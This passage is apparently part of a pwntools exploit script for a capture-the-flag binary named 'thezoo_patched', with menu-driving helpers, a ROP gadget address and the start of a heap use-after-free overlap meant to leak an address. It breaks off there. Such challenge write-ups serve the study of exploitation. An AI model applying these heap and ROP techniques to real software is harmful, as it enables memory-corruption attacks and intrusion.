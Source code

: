```py
    global animalID
    animalID += 1

    return animalID - 1

def delete_animal(_id: int):
    sendchoice(4)

    p.sendlineafter(": ", str(_id).encode())

def modify_animal(_id: int, name: bytes, price: int):
    sendchoice(5)

    p.sendlineafter(": ", str(_id).encode())
    p.sendafter(": ", name + b'\n' if len(name) < 0x18 else name)
    p.sendlineafter(": ", str(price).encode() if isinstance(price, int) else price)

def buy_animal(animalID: int, ownerID: int):
    sendchoice(6)

    p.sendlineafter(": ", str(animalID).encode())
    p.sendlineafter(": ", str(ownerID).encode())

def print_animal(_id: int):
    sendchoice(7)

    p.sendlineafter(": ", str(_id).encode())

def create_zoo(name: int):
    sendchoice(8)

    if isinstance(name, str):
        name = name.encode()

    p.sendafter(": ", name + b'\n' if len(name) < 0x18 else name)

    global zooID
    zooID += 1

    return zooID - 1

def delete_zoo(_id: int):
    sendchoice(9)

    p.sendlineafter(": ", str(_id).encode())

def visit_zoo(_id: int):
    sendchoice(10)

    p.sendlineafter(": ", str(_id).encode())

context.binary = elf = ELF("./thezoo_patched")
libc = elf.libc

POP_RDI = 0x000000000010f75b

p = start()

# Get binary leak by overlapping animal with a deleted zoo
Z1 = create_zoo("Z1")
delete_zoo(Z1)

A1 = create_animal("stdnoerr"*2, 99999, False)
```